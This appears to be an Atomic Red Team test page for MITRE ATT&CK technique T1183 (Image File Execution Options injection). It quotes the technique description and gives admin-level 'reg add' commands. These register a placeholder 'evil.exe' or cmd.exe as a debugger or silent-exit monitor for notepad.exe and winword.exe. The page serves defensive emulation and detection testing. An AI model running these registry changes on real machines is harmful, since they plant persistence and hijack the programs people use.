 # T1183 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1183)
<blockquote>Image File Execution Options (IFEO) enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., “C:\dbg\ntsd.exe -g  notepad.exe”). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code><executable></code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IEFO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

An example where the evil.exe process is started when notepad.exe exits: (Citation: Oddvar Moe IFEO APR 2018)

* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1</code>
* <code>reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"</code>

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may be abused to obtain persistence and privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous invocation.

Malware may also use IFEO for Defense Evasion by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | winword.exe|
| payload_binary | Binary To Execute | Path | cmd.exe|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```



<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | notepad.exe|
| payload_binary | Binary To Execute | Path | cmd.exe|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512 REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1 REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```



<br/>
